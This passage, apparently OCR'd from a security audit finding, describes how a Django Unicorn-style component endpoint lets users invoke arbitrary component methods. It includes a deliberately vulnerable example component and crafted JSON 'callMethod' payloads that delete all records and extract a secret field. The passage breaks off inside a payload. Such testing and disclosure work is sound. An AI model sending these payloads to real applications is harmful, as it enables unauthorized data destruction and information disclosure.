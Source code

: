   Looking at examples in the codebase, there are several component methods that could be abused:

  ```python
  def delete(self, flavor_to_delete: Flavor):
      flavor_to_delete.delete()
      self.refresh_flavors()
  ```

  If an attacker can call this method with controlled arguments, they might be able to manipulate the database in unintended ways.

  The message handling flow:
  1. The message view receives a request with an action queue
  2. For each action of type "callMethod", it extracts the method name and arguments
  3. It calls `_call_method_name` which invokes the method with the provided arguments
  4. The method executes with attacker-controlled inputs

- **Security Test Case**:
  1. Create a component with a method that has dangerous side effects:
     ```python
     class VulnerableComponent(UnicornView):
         sensitive_data = "secret information"

         def delete_all(self):
             # Delete all records in a table
             MyModel.objects.all().delete()

         def get_data(self, data_key=None):
             # This could leak sensitive information
             if data_key == "sensitive_data":
                 return self.sensitive_data
             return None
     ```
  2. Deploy the application and authenticate as a regular user
  3. Craft a payload to call the `delete_all` method:
     ```json
     {
       "data": {},
       "checksum": "<valid_checksum>",
       "id": "<component_id>",
       "epoch": 123456789,
       "actionQueue": [
         {
           "type": "callMethod",
           "payload": {"name": "delete_all()"}
         }
       ]
     }
     ```
  4. Send the payload to the application's message endpoint
  5. Verify that all records in the table were deleted despite the user not having permission to do so directly
  6. Create another payload to call the `get_data` method to extract sensitive information:
     ```json
     {
       "data": {},
       "checksum": "<valid_checksum>",
       "id": "<component_id>",
       "epoch": 123456789,
       "actionQueue": [
         {
           "type": "callMethod",
           "payload": {"name": "get_data(data_key='sensitive_data')"}